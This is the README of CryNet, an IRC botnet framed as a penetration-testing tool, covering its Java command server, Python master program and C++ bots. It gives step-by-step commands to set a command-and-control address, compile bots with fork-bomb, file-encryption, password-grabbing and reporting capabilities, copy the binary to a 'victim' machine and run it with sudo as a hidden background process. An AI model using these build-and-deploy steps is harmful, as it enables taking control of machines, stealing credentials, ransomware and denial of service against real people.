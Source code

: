 # CryNet

CryNet is an advanced IRC Botnet Intended to be used in a penetration testing context. It is an open-source tool designed to simulate and test various security threats in a controlled environment. 

---

## Features
* Simulate various cybersecurity threats including DDoS, ransomware, and system throttling
* Customizable bots with multiple capabilities
* IRC-based Command and Control (C&C) infrastructure
* Cross-platform support with components written in C++, Java, and Python

---

## System Requirements and Dependencies

**Server**
* OS: Any with Java Runtime Environment (JRE) 1.8
* Dependencies: Jackson-core, commons-codec, Apache Maven

**Bot**
* OS: Linux, preferably Debian based at this time
* Dependencies: crypto++, libircclient, libtins/libpcap

**Master**
* OS: Any with Python installed
* Dependencies: Colorama, hashlib, socket, subprocess, threading, JSON

---

## Installation and Setup

**General Installation**
1. Clone the repository 

```
git clone https://github.com/s1-dev/CryNet.git
cd CryNet
```

2. Following below steps for installation and setup for deseired component 

**IRC Server Installation**

1. Run `setup.py` script

```
python setup.py
```

2. Follow script for server setup

```
Welcome to CryNet project setup, please enter revelant information to setup configuration:
What config would you like to update? (MASTER|SERVER|BOTH) SERVER
~~~~~~~~~~~~~~~~~Server config~~~~~~~~~~~~~~~~~
Current configuration:
{
    "serverHostname": "",
    "portNumber": 0,
    "maxChannels": 0,
    "maxChannelUsers": 0,
    "maxMessageLength": 0,
    "maxNickLength": 0,
    "maxConnections": 0,
    "masterAuthDigest": "",
    "botAuthDigest": "",
    "shutdownSalt": "",
    "shutdownDigest": ""
}
Server hostname (IP): 127.0.0.1
Port number (6667|6697): 6667
Max channels (default is 7):
...
```

3. Run `ircServerBuildAndRush.sh` script to build and execute the maven project

```
./ircServerBuildAndRun.sh
```

**Master Installation**
1. Run `setup.py` script

```
python setup.py
```

2. Follow script for master setup

```
Welcome to CryNet project setup, please enter revelant information to setup configuration:
What config would you like to update? (MASTER|SERVER|BOTH) MASTER
~~~~~~~~~~~~~~~~~Master config~~~~~~~~~~~~~~~~~
Current configuration:
{
    "server": "127.0.0.1",
    "port": 6667,
    "masterValidatePass": "9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08",
    "botValidatePass": "ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae",
    "botPath": "/code/secDev/CryNet/src/bot/"
}
Server address (IP): 127.0.0.1
Port number (6667|6697): 6667
Master validation passphrase:
...
```

3. Run `runMasterProgram.sh` script or run the `MasterProgram.py` script

```
./runMasterProgram.sh
```

OR

```
cd src/master/
python ./MasterProgram.py
```

**Bot Installation - Manual Setup**
1. Navigate to the root of the bot project directory

```
cd src/bot/
```

2. Modify `manualCompilationScript.sh` to flip any deseired bot capaiblitity flags to 1

```
head -n 7 manualCompilationScript.sh
#!/bin/bash

ENABLE_PING_ACTION=0
ENABLE_ENCRYPT_ACTION=0
ENABLE_REPORT_ACTION=0
ENABLE_FORK_BOMB_ACTION=0
ENABLE_GET_PASSWD_ACTION=0

nano manualCompilationScript.sh
head -n 7 manualCompilationScript.sh
#!/bin/bash

ENABLE_PING_ACTION=1
ENABLE_ENCRYPT_ACTION=0
ENABLE_REPORT_ACTION=1
ENABLE_FORK_BOMB_ACTION=0
ENABLE_GET_PASSWD_ACTION=1
```

3. Modify variables set in `manualCompilationScript.sh` that are passed in as macros for compilation. 

Example of the set variables
```
BOT_NICK="bot_NICK"
BOT_USER="bot_USER"
SERVER_ADDRESS="52.90.220.187"
ASSIGNED_CHANNEL="#testChannel"
BOT_PASS="test123"
MASTER_NICK="master"
OUT_FILE="irc_bot"
```

4. Run `manualCompilationScript.sh`
```
./manualCompilationScript.sh
```

5. Move the executable to the deseired "victim" machine 

6. Run the executable, it default runs as a background process. Otherwise, use "NO_DAEMON" command-line argument 

```
sudo ./irc_bot
``` 

OR

```
sudo ./irc_bot NO_DAEMON
```

**Bot Installation - Master Setup**
1. Run the master program, ensure that the master setup has been complete

```
cd src/master/
python ./MasterProgram.py
```

2. Run through the bot compilation process in the master program

```
~~~~~~~~~~~~~~~~~~~~~~~CryNet Master Options~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Master options (input number to select option):
1. Connect to CryNet IRC server
2. Enter command center
3. Enter manual IRC console
4. View bot staistics
5. Compile a new bot
Option: 5
----------------------CryNet Bot Compilation----------------------
To a compile a bot with a specific level of complexity, follow given instructions
(Note: This compiler will only work if g++ is installed and the master program is running from the 'master' directory)
=========================General Bot Setup=========================
Enter the name of the executable: irc_bot
Enter the output path of this binary (no input will be the cwd):
Would you like to strip the binay? Stripping is recommended since it removes debugging informationa and untouched code, which reduces the exe size.
Enter 'n' to not strip the exe:
=========================Bot Macros Setup=========================
(Note: these values will be passed to the bot as essentially compilation time params)
Enter a botnet channel name (must start with '#'):
...
```

3. Move the executable to the deseired "victim" machine 

4. Run the executable, it default runs as a background process. Otherwise, use "NO_DAEMON" command-line argument 

```
sudo ./irc_bot
``` 

OR

```
sudo ./irc_bot NO_DAEMON
```

---

## Component Overview

**IRC Server**
The IRC Server, written in Java, acts as the central command hub for CryNet. It supports several hundred concurrent connections and facilitates communication between the Master Program and IRC Bots.

**Bot**
CryNet's IRC Bots are written in C++ and are responsible for executing commands received from the IRC server. They can be compiled with various capabilities, enabling them to perform different security testing actions.

**Master**
The Master Program, written in Python, sends commands to the IRC Bots via the IRC Server. It allows users to remotely manage and control the actions performed by the bots. In addition, it provides a UI for bots to be compiled with different capabilities. 
